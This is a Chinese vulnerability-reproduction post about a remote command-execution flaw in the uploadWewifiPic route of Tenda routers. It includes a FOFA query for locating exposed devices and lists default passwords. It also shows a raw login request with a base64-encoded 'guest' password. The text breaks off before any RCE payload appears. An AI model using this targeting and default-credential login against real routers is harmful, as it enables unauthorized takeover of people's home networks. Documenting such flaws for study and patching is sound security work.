


# Tenda 路由器 uploadWewifiPic后台RCE漏洞复现

### 0x01 产品简介

 腾达[路由器](https://so.csdn.net/so/search?q=%E8%B7%AF%E7%94%B1%E5%99%A8&spm=1001.2101.3001.7020)是一款高效实用的路由器，致力于为家庭用户提供舒适、便捷、自然的智慧家庭体验。简单便捷的部署在家庭中，彻底解决家庭用户的网络接入问题。

### 0x02 漏洞概述

 腾达路由器后台 uploadWewifiPic 路由存在[命令执行漏洞](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，攻击者可利用漏洞执行任意命令获取服务器权限。

### 0x03 复现环境

FOFA：app="Tenda-路由器"

### 0x04 漏洞复现 

默认弱口令登录

账号：admin  密码：guest、admin等（base64编码）也可以登录页面直接尝试

```cobol
POST /login/Auth HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 34

username=admin&password=Z3Vlc3Q%3D
```


